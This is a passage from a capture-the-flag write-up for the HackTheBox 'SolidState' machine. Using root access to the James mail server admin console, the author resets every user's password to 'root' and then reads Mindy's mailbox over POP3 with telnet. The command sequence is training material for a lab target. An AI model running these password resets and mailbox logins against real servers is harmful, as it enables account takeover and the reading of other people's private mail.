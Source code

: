 ```text
user: mailadmin
```
Because I'm the root user, and I can see there's the command `setpassword`, lets see if we can change all the user's passwords, that way we can access their emails.

```text
setpassword james root
Password for james reset
setpassword thomas root
Password for thomas reset
setpassword john root
Password for john reset
setpassword mindy root
Password for mindy reset
setpassword mailadmin root
Password for mailadmin reset
```

Cool, now that these passwords have been updated to root, we should be able to access the user's emails. Checking the different users, we find someinteresting emails in Mindy's inbox:

```text
┌──(ryan㉿kali)-[~/HTB/SolidState]
└─$ telnet 10.10.10.51 110          
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user mindy
+OK
pass root
+OK Welcome mindy
list
+OK 2 1945
1 1109
2 836
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
```
